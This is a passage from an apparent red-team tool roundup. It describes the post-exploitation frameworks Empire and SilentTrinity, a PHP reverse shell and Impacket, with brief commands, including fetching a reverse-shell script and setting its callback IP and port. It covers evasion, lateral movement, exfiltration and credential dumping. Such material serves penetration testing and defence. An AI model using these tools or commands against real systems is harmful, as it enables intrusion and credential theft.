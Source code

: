 - **Use Cases**:
  - **Stealthy Post-Exploitation**: Deploy and manage PowerShell and Python agents to conduct covert post-exploitation activities on compromised systems.
  - **Privilege Escalation**: Utilize Empire’s extensive set of modules to escalate privileges within a target environment.
  - **Lateral Movement**: Move laterally across networks while maintaining persistence, avoiding detection, and exfiltrating data.
- **Example**:
  ```bash
  ./empire
  ```
### 3. [SilentTrinity](https://github.com/byt3bl33d3r/SILENTTRINITY)
- **Description**: SilentTrinity is an open-source, multi-platform post-exploitation framework that uses IronPython for payload execution. It’s designed to bypass many traditional defenses by leveraging .NET-based execution methods. SilentTrinity is particularly effective for executing code in environments where traditional PowerShell-based tools might be detected or blocked, making it a stealthy choice for red teamers.
- **Use Cases**:
  - **Stealthy Payload Execution**: Execute payloads using IronPython to bypass traditional security controls that detect or block PowerShell.
  - **Post-Exploitation**: Conduct a range of post-exploitation activities, including privilege escalation, lateral movement, and persistence.
  - **Defense Evasion**: Utilize .NET-based execution to evade detection by modern endpoint detection and response (EDR) solutions.
- **Example**:
  ```bash
  python3 st.py --payload ironpython --target 192.168.1.100
  ```
  ### 4. [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
- **Description**: PHP Reverse Shell is a simple yet effective script that provides a reverse shell connection back to the attacker's machine. It's widely used in post-exploitation scenarios to gain shell access on a compromised web server.
- **Use Cases**:
  - **Gaining Shell Access**: Deploy a reverse shell on a compromised server to maintain control and execute commands.
  - **Post-Exploitation**: After initial access, use this shell to further exploit the target server.
  - **Red Teaming**: Implement this script in red team exercises to simulate real-world attacks and test the target's defenses.
- **Example**:
  ```bash
  wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
  nano php-reverse-shell.php
  ```
  ```php
  $ip = 'YOUR_IP';  // Replace with your IP address
  $port = YOUR_PORT;  // Replace with the port you want to listen on
  ```
  ### 6. [Impacket](https://github.com/fortra/impacket)
- **Description**: Impacket is a powerful suite of Python tools for interacting with network protocols, particularly in Windows environments. It includes tools for remote command execution, credential dumping, and network enumeration, making it invaluable for post-exploitation activities.
- **Use Cases**:
  - **Kerberoasting**: Use the `GetUserSPNs.py` tool to extract service principal names (SPNs) and their associated Kerberos ticket hashes from Active Directory for offline password cracking.
  - **Credential Dumping**: Extract password hashes from Active Directory using `getnpusers.py` for accounts with Kerberos pre-authentication disabled.
  - **Remote Command Execution**: Execute commands on remote Windows machines.
  - **Network Enumeration**: Enumerate network resources such as SMB shares and RPC services.
- **Some Examples of Use**:
